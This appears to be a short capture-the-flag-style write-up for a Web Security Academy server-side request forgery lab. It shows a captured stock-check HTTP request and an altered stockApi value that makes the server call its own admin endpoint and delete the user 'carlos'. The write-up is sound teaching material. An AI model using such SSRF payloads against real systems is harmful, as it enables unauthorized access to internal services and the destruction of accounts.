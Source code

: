 task : vist http://localhost/admin and delete the user carlos.

![image](https://user-images.githubusercontent.com/67979878/128199883-ca00f9cd-f475-48ca-b7e1-3ab8f60898fc.png)

when choosing any product and check stack request is :

```
POST /product/stock HTTP/1.1
Host: acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Origin: https://acbe1f561f9eb743800f0e9e00e6008e.web-security-academy.net
Content-Length: 107
Connection: close
Cookie: session=DIFO4Sb1IMaPRuQSCPL2PZ71ZUwbKEMU; session=uvAYcsCqazHR9tqN2HFGR1E0xvG7eTH4
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1
```

as we can see in stockapi it sends requst to another host to return stack querey .

let's modify it 
`stockApi=http://127.0.0.1/admin/delete?username=carlos`

![image](https://user-images.githubusercontent.com/67979878/128200459-31b390cf-21fa-4b8c-86e6-a15aaa040e48.png)
